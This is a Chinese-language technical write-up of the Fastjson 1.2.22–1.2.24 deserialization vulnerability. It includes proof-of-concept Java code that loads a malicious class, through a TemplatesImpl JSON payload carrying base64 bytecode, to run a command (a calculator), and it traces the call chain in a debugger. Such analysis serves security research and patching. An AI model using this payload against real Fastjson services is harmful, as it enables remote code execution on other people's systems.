







# Fastjson 1.2.22 - 1.2.24 反序列化漏洞

> 原文：[http://book.iwonder.run/0day/Fastjson/Fastjson 1.2.22-24 反序列化漏洞.html](http://book.iwonder.run/0day/Fastjson/Fastjson 1.2.22-24 反序列化漏洞.html)

## 一、漏洞简介

## 二、漏洞影响

Fastjson 1.2.22-24

## 三、复现过程

### 0x01 简单介绍

> 介绍：FastJson 是一款由阿里开发的 JSON 库 影响版本：1.2.22-24 官方通告：[https://github.com/alibaba/fastjson/wiki/security_update_20170315](https://github.com/alibaba/fastjson/wiki/security_update_20170315) 补丁：[https://github.com/alibaba/fastjson/commit/d075721cf396d5cb70e24c824b901e3a9a5b342b](https://github.com/alibaba/fastjson/commit/d075721cf396d5cb70e24c824b901e3a9a5b342b)
> 
> 本地环境： win10 idea64 2018.2.5 jdk 1.8 fastjson 1.22

#### FastJson 的简单使用

先通过一个简单的 demo 来熟悉一下 FastJson 的基本操作。首先创建一个 Student 类，Student.java：

```
package ka1n4t.test;

public class Student {
    public String name;
    private int age;

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }
} 
```

Students 有一个公有属性 name 和一个私有属性 age。下面使用一个测试类，将 json 字符串反序列化成 Student 对象，learnFJ.java：

```
package ka1n4t.test;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.JSONObject;

public class learnFJ {
    public static void main(String args[]) {
        String text = "{\"@type\":\"ka1n4t.test.Student\",\"name\":\"ZhangSan\",\"age\":123}";
        Student obj1 = JSON.parseObject(text, Student.class, Feature.SupportNonPublicField);
        System.out.println(obj1.getName());
    }
} 
```

结果：


### 0x02 原理分析

#### 分析 POC

先看一下用于反序列化的恶意类 evilClass1.java:

```
package ka1n4t.poc;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class evilClass1 extends AbstractTranslet/*ka1n4t*/ {

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }

    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {

    }

    public evilClass1() throws IOException {
        Runtime.getRuntime().exec("calc");
    }

    public static void main(String[] args) throws IOException {
        evilClass1 helloworld = new evilClass1();
    }
} 
```

其中的构造方法是用 exec 弹个计算器。看下 poc，vulApp1.java：

```
package ka1n4t.poc;

import org.apache.commons.io.IOUtils;
import org.apache.commons.codec.binary.Base64;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

public class vulApp1 {

    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }

        String result = Base64.encodeBase64String(bos.toByteArray());

        return result;
    }

    public static void bad_method() {
        ParserConfig config = new ParserConfig();
        final String fileSeparator = System.getProperty("file.separator");
        String evil_path = "D:\\Java-App\\fastjson-1.2.22\\target\\classes\\ka1n4t\\poc\\evilClass1.class";
        String evil_code = readClass(evil_path);

        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        String text1 = "{\"@type\":\"" + NASTY_CLASS +
                "\",\"_bytecodes\":[\""+evil_code+"\"]," +
                "'_name':'a.b'," +
                "'_tfactory':{ }," +
                "\"_outputProperties\":{ }}\n";
        System.out.println(text1);
        Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
    }

    public static void main(String args[]) {
        bad_method();
    }

} 
```

核心部分：

```
String text1 = "{\"@type\":\"" + NASTY_CLASS +
                "\",\"_bytecodes\":[\""+evil_code+"\"]," +
                "'_name':'a.b'," +
                "'_tfactory':{ }," +
                "\"_outputProperties\":{ }}\n";

Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField); 
```

_bytecodes 是经过 base64 编码的 evilClass1 的字节码文件，NASTY_CLASS 是 TemplatesImpl 类。总结一下这个 payload，利用 JSON.parseObject 反序列化 TemplatesImpl 类，其中 _bytecodes 属性是经过 base64 编码的恶意类字节码文件。

#### 调试分析

下面来分析一下反序列化 TemplatesImpl 的调用链，首先经过 java 的反射机制，到达 TemplatesImpl 类，调用其 getOutputProperties()方法：




跟进 newTransformer()方法，这个方法是用于创建一个 Transformer 实例。然后到达 getTransletInstance()方法：



getTransletInstance()方法用于创建一个 translet 实例，返回这个 translet 给 newTransformer()，然后被包裹成 Transformer 对象。跟进一下这个方法，发现其调用了 defineTransletClasses()用来加载 _bytecodes 中的类，接着又调用了 _class[_transletIndex].newInstance()将 defineTransletClasses()返回的类进行实例化：



先跟进一下 defineTransletClasses 方法：


可以看到，使用了 loader.defineClass()方法用于加载 _bytecodes 的内容，并将返回的类赋值给 _class[i]（这里的 i 是 0）。loader 是 TemplatesImpl 自定义的类，跟进一下：



可以看到 TransletClassLoader 继承了 Java 类加载器—ClassLoader 类，跟进其 defineClass 方法，发现直接调用了父类 ClassLoader 中的方法，所以就不再跟进了。

回到 defineTransletClasses 方法，其间接调用 ClassLoader 加载 _bytecodes 中的内容之后，将加载出来的类赋值给 _class[0]，然后结束，回到 getTransletInstance 方法，再看一下图：


可以看到，455 行直接使用了 _class[0].newInstance()创建实例，创建的过程中调用了 evilClass1 构造方法，然后触发了 payload：



### 0x03 复现过程

从 github 上直接 pull 下 poc：[https://github.com/ianxtianxt/fastjson-remote-code-execute-poc](https://github.com/ianxtianxt/fastjson-remote-code-execute-poc) 使用 idea 打开工程，编译 test.java：



然后会在 target/classes/person 下生成 test.class 文件。用同样的方法编译 Poc.java。



配置运行方式


运行 Poc：


## 参考链接

> [https://www.cnblogs.com/litlife/p/9986427.html](https://www.cnblogs.com/litlife/p/9986427.html)

